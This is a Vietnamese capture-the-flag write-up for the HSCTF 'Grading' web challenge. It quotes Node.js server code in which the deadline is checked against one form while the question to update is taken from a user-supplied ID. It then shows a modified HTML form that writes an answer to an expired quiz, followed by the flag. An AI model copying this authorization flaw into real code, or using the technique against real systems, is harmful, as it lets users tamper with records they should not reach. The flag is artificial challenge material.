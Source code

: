 # Grading

## Description

Did you attend online school this year?

Good, because you'll need to register at grading.hsc.tf and get anA on "simple quiz" to find the flag.

Server code is attached.

## Solution

Sau khi đăng nhập vào một tài khoản do mình tự tạo ta sẽ thấy xuất hiện hai bài test :

![img](img9.png)

Có thể thấy một bài test đã hết hạn (13/5/2021), và một bài test sẽ hết hạn vào (19/5/2021) tức là lúc event này kết thúc .
```
const failedTest = {
                name: "simple quiz",
                questions: [
                    user.questions[0]._id,
                ],
                deadline: new Date(2021, 5, 13, 0, 0, 0)
            }
            
            const newTest = {
                name: "another simple quiz",
                questions: [
                    user.questions[1]._id,
                ],
                deadline: new Date(2021, 5, 19, 0, 0, 0)
            } 
```

Tiếp theo tôi thấy servẻ kiểm tra câu hỏi và trả lời bằng cách sử dụng ID .

```
.post(authMW, (req, res) => {
    const now = Date.now()
    const form = req.user.forms.id(req.params.formID)
    if(now > form.deadline) {
        res.json({response: "too late"})
    } else {
        if(req.body.ID) {
            const question = req.user.questions.id(req.body.ID)
            console.log(question);
            question.submission = req.body.value
            req.user.save()
        } else {
            form.submitted = true
            req.user.save()
        }

        res.json({response: "heh"})
    }

}) 
```
Và còn một điều nữa là câu hỏi sẽ chỉ được check khi form hết hạn vậy để lấy được flag ta sẽ cần thay đổi giá trị ID của câu hỏi và câu trả lời của form chưa hết hạn bằng ID của form đã hết hạn . Cụ thể như sau :

> ID question simple quiz : 60ce91268c156e4a10529a43
> ID answer simple quiz : 60ce91268c156e7e03529a41 (answer : "Africa is not a country"  )

> Form another simple quiz sau khi thay đổi :
```
<div class="container mid">
    <form action="/60ce91268c156e4a10529a43" method="POST" onsubmit="return true;">
         
        <div class="mb-3 question">
            <label for="">What is the best CTF?</label>
            
                <input type="text" disabled class='active' name="60ce91268c156e7e03529a41" value="Africa is not a country">
             
        </div>
         
        <button class="btn btn-primary" type="submit">Submit</button>
    </form>
</div>
```

Sau khi submit ta cần quay lại **simple quiz** để lấy flag .

![img](img/img10.png)

## Flag

flag{th3_an5w3r_w4s_HSCTF_0bvi0us1y}